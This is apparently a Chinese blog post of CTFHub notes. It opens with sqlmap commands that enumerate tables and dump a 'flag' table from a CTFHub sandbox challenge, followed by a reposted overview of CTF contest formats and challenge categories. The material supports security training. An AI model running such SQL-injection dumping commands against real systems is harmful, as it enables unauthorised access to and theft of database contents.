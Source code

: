 ```yaml
---
title: ctfhub.md
toc: true
recommend: 1
uniqueId: '2021-10-24 13:32:39/ctfhub.md.html'
mathJax: false
date: 2021-10-24 21:32:39
thumbnail:
tags:
categories:
keywords:
---
```

> 在ctfhub的一点一滴

<!-- more -->

## Sql注入

### sqlmap的基础用法

```shell
# 列出表名
python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 --tables
# 列出列名
python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 -T flag --columns
# 查数据
python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 -T flag -C flag --dump
```

> 转载自 CTFHUB

CTF竞赛模式具体分为以下几类：

## CTF 赛事

### 理论知识

理论题多见于国内比赛，通常为选择题。包含单选及多选，选手需要根据自己所学的相关理论知识进行作答。最终得出分数。理论部分通常多见于初赛或是初赛之前的海选

### Jeopardy-解题

参赛队伍可以通过互联网或者现场网络参与，参数队伍通过与在线环境交互或文件离线分析，解决网络安全技术挑战获取相应分值，类似于 ACM 编程竞赛、信息学奥林匹克赛，根据总分和时间来进行排名。 不同的是这个解题模式一般会设置 一血(First Blood) 、 二血(Second Blood) 、 三血(Third Blood) ，也即最先完成的前三支队伍会获得额外分值，所以这不仅是对首先解出题目的队伍的分值鼓励，也是一种团队能力的间接体现。 当然还有一种流行的计分规则是设置每道题目的初始分数后，根据该题的成功解答队伍数，来逐渐降低该题的分值，也就是说如果解答这道题的人数越多，那么这道题的分值就越低。最后会下降到一个保底分值后便不再下降。一般称之为`动态积分`题目类型主要包含 Web 网络攻防 、 RE 逆向工程 、 Pwn 二进制漏洞利用 、 Crypto 密码攻击以及 Misc 安全杂项 这五个类别，个别比赛会根据题目类型进行扩展。

### AwD-攻防模式

**A**ttack **w**ith **D**efense(AwD)全称攻防模式，在攻防模式CTF赛制中，参赛队伍连接到同一个网络空间。主办方会预先为每个参赛队分配要防守的主机，该主机称之为`GameBox`，每个队伍之间的GameBox`配置及漏洞是完全一致`的，选手需要防护自己的GameBox不被攻击的同时挖掘漏洞并攻击对手服务来得分。在AwD中主办方会运行一个名为`Checker`的程序定时检测选手的GameBox的运行状态。若检测到状态不对则判定该GameBox宕机，按照规则扣除一定分数。攻防模式CTF赛制可以实时通过得分反映出比赛情况，最终也以得分直接分出胜负，是一种竞争激烈，具有很强观赏性和高度透明性的网络安全赛制。在这种赛制中，不仅仅是比参赛队员的智力和技术，也比体力（因为比赛一般都会持续24至48小时左右），同时也比团队之间的分工配合与合作。 AwD通常仅包含`Web`及`Pwn`两种类型的题目。每个队伍可能会分到多个GameBox，随着比赛的进行，最早的GameBox可能会下线，同时会上线新的GameBox。

### RHG-自动化[ AI自动化]

**R**obo **H**acking **G**ame(RHG)该利用人工智能或是AI或是自动化攻击程序来全自动的挖掘并利用漏洞，考验选手对于`漏洞理解`以及`工程化`能力。比赛开始前(一般为1-4周左右)主办方会给出测试环境以及相关接口文档。选手需要编写自动化程序来请求接口获取题目相关信息，该类程序通常称之为`bot`，在程序中`全自动`访问并挖掘目标漏洞，完成利用漏洞攻击并获取flag的过程。获取到的flag也由程序自动化提交。RHG因为是由bot全自动进行工作，所以比赛开始即可视为结束。剩下的一切全看参赛选手编写的自动化bot的工作情况。 比赛过程中不允许选手对bot进行任何的操作(包括debug/patch等等)。选手仅能看到自己的bot完成了哪些题。目前的得分情况等等。

### RW-真实世界

**R**eal **W**orld(RW) 首次于2018年`长亭科技`主办的RealWorldCTF中出现，该赛制着重考察选手在面对真实的环境下的漏洞挖掘与利用能力。通常RW模式出题也会围绕着能够应用于真实渗透攻击当中的漏洞，一般来说RW常见题型为VM/Docker逃逸、针对浏览器的攻击、针对IoT/Car等设备的攻击，Web类攻击等等 在RW赛制中会有一个`Show Time`，当选手认为自己已经可以完成题目时，选手可以在比赛平台上提交展示申请，由工作人员根据申请先后顺序进行展示排期。选手展示之前需要上台并连接相关网络，同时现场大屏会切换至目标的正常页面。选手确认连接并测试OK之后开始计时。一般情况下上台攻击的时间为`5分钟`，选手一旦完成攻击现场大屏幕会实时看到攻击的效果，此时裁判会根据效果是否符合题目要求来判定该题是否完成。如5在攻击时间内依然未能看到展示效果则认为本次攻击失败。现如今为了防止选手恶意排期。通常会有一个队伍总展示次数(例如在2019年数字经济云安全公测大赛中每个队伍只允许上台展示30次)，选手也需要尽可能保证上台之后攻击的成功率 举个例子。题目要求需要攻击位于比赛网络中的某个网站并将首页替换为包含队伍名称的页面。题目给出该网站的一些信息(源代码/数据库等等)，选手经过本地挖掘漏洞之后，提交展示申请，排期到了之后进行上台展示。注意，因为RW模式是以展示效果来作为题目是否完成的准则，所以在RW模式中并`不存在Flag`。

### KoH-抢占山头

**K**ing **o**f **H**ill(KoH)是近些年新衍生的一种赛制。该赛制有点类似于AwD，但是又和AwD有些不一样。选手面对的是一个黑盒的目标，需要先挖掘漏洞并利用漏洞控制目标。将自己的队伍标识(`队伍名称`或是`Token`之类)写入到指定文件。随后在该主机上进行加固等操作防止其他队伍攻击，主办方会定期去检查标识文件，根据文件中的队伍标识来判定本回合分数给予哪个队伍。可以看出KoH也是一种对抗极为激烈的赛制，同时考察选手的渗透能力及防御加固能力。

### Mix[混合]

混合模式结合了以上多种模式，现如今单一的赛制已经无法满足比赛及选手的参赛需求，所以大部分比赛会同时以多个模式进行比赛。例如参赛队伍通过解题(Jeopardy)可以获取一些初始分数，然后通过攻防对抗(AwD)进行得分增减的零和游戏，最终以得分高低分出胜负。

## CTF 题目类型

在CTF中主要包含以下5个大类的题目，有些比赛会根据自己的侧重点单独添加某个分类，例如`移动设备(Mobile)`, `电子取证(Forensics)`等，近年来也会出来混合类型的题目，例如在Web中存在一个二进制程序，需要选手先利用Web的漏洞获取到二进制程序，之后通过逆向或是Pwn等方式获得最终flag

### Web

Web类题目大部分情况下和网、Web、HTTP等相关技能有关。主要考察选手对于Web攻防的一些知识技巧。诸如`SQL注入`、`XSS`、`代码执行`、`代码审计`等等都是很常见的考点。一般情况下Web题目只会给出一个能够访问的URL。部分题目会给出附件

### Pwn

Pwn类题目重点考察选手对于`二进制漏洞的挖掘和利用`能力，其考点也通常在`堆栈溢出`、`格式化漏洞`、`UAF`、`Double Free`等常见二进制漏洞上。选手需要根据题目中给出的二进制可执行文件进行逆向分析，找出其中的漏洞并进行利用，编写对应的漏洞攻击脚本(`Exploit`)，进而对主办方给出的远程服务器进行攻击并获取flag通常来说Pwn类题目给出的远程服务器信息为`nc IP_ADDRESS PORT`，例如`nc 1.2.3.4 4567`这种形式，表示在`1.2.3.4`这个IP的`4567`端口上运行了该题目

### Reverse

Re类题目考察选手`逆向工程`能力。题目会给出一个可执行二进制文件，有些时候也可能是Android的APK安装包。选手需要逆向给出的程序，分析其程序工作原理。最终根据程序行为等获得flag

### Crypto

Crypto类题目考察选手对`密码学`相关知识的了解程度，诸如`RSA`、`AES`、`DES`等都是密码学题目的常客。有些时候也会给出一个加密脚本和密文，根据加密流程逆推出明文。

### Misc

Misc意为杂项，即不包含在以上分类的题目都会放到这个分类。题目会给出一个附件。选手下载该附件进行分析，最终得出flag
常见的题型有图片隐写、视频隐写、文档隐写、流量分析、协议分析、游戏、IoT相关等等。五花八门，种类繁多。

